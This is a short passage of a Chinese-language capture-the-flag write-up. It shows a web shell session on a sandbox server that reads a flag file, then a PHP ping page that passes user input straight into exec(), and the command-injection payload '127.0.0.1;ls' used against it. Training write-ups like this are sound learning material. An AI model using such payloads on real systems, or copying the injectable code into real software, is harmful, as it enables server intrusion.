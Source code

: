 `cd /` 

`ls /` 

`cat flag_15855`

```
(www-data:/var/www/html) $ cd /
(www-data:/) $ ls /
bin
boot
dev
etc
flag_15855
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
(www-data:/) $ cat flag_15855
ctfhub{d0a29cd09905f7a256b40397}
(www-data:/) $ 
```

ctfhub{d0a29cd09905f7a256b40397}

### 命令注入

http://challenge-cc121c7aa36e8824.sandbox.ctfhub.com:10800/

代码审计 

```php
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $cmd = "ping -c 4 {$_GET['ip']}";
    exec($cmd, $res);
}
?>
```

payload `127.0.0.1;ls` 

![image-20221126143931523](https://img.gyxnb.top/img/image-20221126143931523.png)
